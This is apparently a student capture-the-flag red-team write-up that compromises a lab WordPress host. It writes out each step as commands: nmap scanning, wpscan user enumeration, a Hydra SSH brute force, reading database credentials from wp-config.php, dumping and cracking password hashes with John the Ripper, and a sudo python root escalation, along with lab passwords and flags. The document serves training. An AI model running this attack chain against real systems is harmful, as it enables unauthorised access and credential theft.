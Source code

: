 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

The following services and OS data are revealed by the Nmap scan results for each machine:

$ nmap -A 192.168.1.0/24
- ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/nmapscan.png)

This scan finds the following services as potential ports of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

On each target, the following vulnerabilities were discovered:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - There is no implementation of file security permission.
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was successful in breaching 'Target 1' and obtaining the following sensitive information:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan is being used to count the number of users on the Target 1 WordPress site.
       - wpscan --url http://192.168.1.110 --enumerate u
 
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael

    - Capturing Flag 1: As Michael, I went through directories and files following an SSH Brute Force Attack.
      - Flag1 was discovered in the var/www/html folder at the root in service.html in an HTML remark below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael

        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt

  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - MySQL was used to examine the database after discovering wp-config.php and getting access to the database credentials as Michael.
        - the wp-config.php displayed DB_Password in plaintext

        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;

  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by collecting user credentials from the database, running john the ripper to crack the password hash, then gaining root access using Python Escalation Privileges.
        - After gaining access to the database credentials as Michael through the sp-config.phpfile, the next step was to decrypt password hashes obtained from MySQL.
        - These user credentials are saved in the WordPress database's wp_users table.
        - The usernames and password hashes were recorded in a file named wp hashes.txt on the Kali computer.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;

        - When I exported the hashes, I stored them separately as stevenhash.txt and michaelhash.txt and cracked the hashes using John the Ripper.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of the john the ripper continued; however, we already knew the password from the prior action.

          - After cracking Steven's password hash, the next step was to SSH as Steven. Then, as Steven, use Python to check for privilege and escalate to root.
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
